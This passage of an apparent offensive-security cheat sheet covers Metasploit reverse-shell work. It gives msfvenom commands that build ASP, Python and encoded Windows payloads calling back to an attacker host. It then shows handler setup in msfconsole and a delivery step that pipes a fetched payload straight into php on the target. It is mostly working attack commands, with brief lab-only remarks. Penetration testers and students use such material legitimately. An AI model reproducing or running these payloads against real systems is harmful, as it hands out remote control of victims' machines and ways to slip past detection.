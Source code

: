 ASP payload:

```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f asp > rev_shell.asp
```

Python reverse command (raw):

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.0.0.5 LPORT=4444 -f raw > rev_shell.py
```

---

## Encoders — basic usage

> Encoders are legacy obfuscation; modern EDRs often detect by behavior.

```bash
# encode with shikata_ga_nai 3 iterations (x86 example)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded.exe
```

---

# Handlers — catch the shell (step-by-step example)

1. Start a handler in `msfconsole`:
    

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.5
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j
```

2. Deliver the payload to the target (lab):
    

- **Web delivery** (lab only): place `rev_shell.php` into a web root and trigger via browser/curl:
    

```bash
# on attacker machine: host the folder with the php file
python3 -m http.server 8000
# on target (lab) fetch it (if allowed in lab)
curl http://10.0.0.5:8000/rev_shell.php | php
```

3. Handler receives callback:
    

```text
msf6 > sessions -l
msf6 > sessions -i <id>
```

---